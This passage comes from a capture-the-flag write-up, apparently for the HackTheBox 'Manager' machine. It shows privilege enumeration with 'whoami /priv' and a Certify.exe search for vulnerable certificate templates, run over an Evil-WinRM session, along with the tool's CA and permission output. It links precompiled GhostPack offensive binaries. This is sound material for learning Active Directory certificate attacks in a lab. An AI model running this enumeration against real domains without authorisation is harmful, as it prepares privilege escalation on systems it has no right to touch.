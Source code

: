 
## PrivEsc

### Privileges/Certificates
First I checked the current privileges:
``` cmd
whoami /priv
```
![](Manager/privs.png)

I then ran [GhostPack's Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) to check for vulnerable certificates

``` cmd
*Evil-WinRM* PS C:\Users\Raven\Desktop> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
```